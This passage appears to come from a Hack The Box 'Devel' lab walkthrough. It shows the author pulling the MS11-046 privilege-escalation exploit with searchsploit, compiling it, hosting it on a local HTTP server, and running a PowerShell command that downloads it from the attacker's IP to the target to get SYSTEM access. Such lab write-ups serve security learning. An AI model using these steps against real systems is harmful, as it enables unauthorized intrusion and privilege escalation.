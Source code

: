 Here, it can be seen that the system is running on Windows 7 version 6.1.7600. So, we can look for exploits related to this particular windows version.

From a quick google search, the first exploit that pops up is [MS11-046](https://www.exploit-db.com/exploits/40564) with which we can perform a local privilege escalation. We can get the exploit from `searchsploit` and then all we need to do is compile it and send it to the target machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text

Copied to: /home/kali/Desktop/htb/devel/40564.c
```

The compilation instructions are given in the exploit itself but we need `i686-w64-mingw32-gcc` to compile it. 

This can be downloaded using the command `sudo apt install gcc-mingw-w64-i686` and then we can compile the code as

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

To send it over to the target machine, we have 2 ways:

1. Send it via already accessible FTP.
2. Fetch file via PowerShell command.

I tried the FTP option but for some reason the file becomes non-executable and given the following error

```
c:\Users\Public\Downloads>exploit.exe
exploit.exe
This program cannot be run in DOS mode.
```

I tried to run it from different directories but got the same error.

The next option that we can use is start a python server on our local machine with the command `python3 -m http.server` and then use the following PowerShell command to fetch it from the target machine.

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.4:8000/exploit.exe', 'c:\Users\Public\Downloads\exploit.exe')"
```

*Make sure to download it in Public directory because user "iis apppool/web" might not have access to other directories.*

Once the file is fetched all we need to do it run it to get SYSTEM level access.
